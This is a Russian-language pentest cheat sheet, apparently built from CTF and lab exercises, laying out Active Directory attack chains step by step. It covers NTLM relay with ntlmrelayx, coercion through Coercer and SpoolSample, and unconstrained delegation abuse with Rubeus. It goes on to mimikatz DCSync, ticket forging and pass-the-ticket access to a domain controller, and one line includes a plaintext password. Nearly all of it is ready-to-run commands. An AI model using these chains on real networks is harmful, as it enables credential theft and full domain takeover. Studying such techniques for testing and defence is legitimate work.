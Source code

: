 		у 14 есть разрешение на админство от 12
  		
		sudo impacket-ntlmrelayx -t smb://192.168.134.14 --delegate -smb2support

  		на своем хосте

    		proxychains  coercer coerce -l 192.168.134.24 -t 192.168.134.12 -u s.ivanov -p DgdCQTghHGA2ad -d domain.local


на своем хосте запускаем ntlmrelay  м слушаем серевер 1 -----   сервер 2   админ для сервер 1 

	python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 (IP)" -debug

на компроментате запускаем

	C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc (IP) "Attacker IP (мой 3 IP)"



# Unconstrained delegation (linux)

		.\Rubeus.exe tgtdeleg /nowrap
	$  base64 ticket.kirbi.b64 -d > ticket.kirbi
	$ impacket-ticketConverter ticket.kirbi ticket.ccache
	$ export KRB5CCNAME=ticket.ccache
	$ impacket-secretsdump licordebellota.htb/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k

	# TGT Unconstrained delegation
	(Нужен rubeus и mimikatz и printspooler)
	------Нужен скомпроментированный сервер службы sql или еще чего и админ права на нем------

	1. Получить TGT привелигированного юзера или компутера

	.\Rubeus.exe monitor /interval:5 /nowrap

	.\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local

  	2. Обновляем его в память
   
	.\rubeus.exe renew /ticket:<............> /ptt
 	
	3. Мимикатзом делаем DCSYNC

  	lsadump::dcsync /user:Administrator

	4. Крафтим TGT

   	.\Rubeus asktgt /rc4:hashhhh /user:Administrator /ptt

	5. Юзаем
    	 dir \\dc01.domen.local\c$\flag.txt
    
	6. Если уже сть билеты в памяти то можно просто

  	./rubeus.exe dump /nowrap
		И ЗАТЕМ
	.\rubeus.exe renew /ticket:<............> /ptt
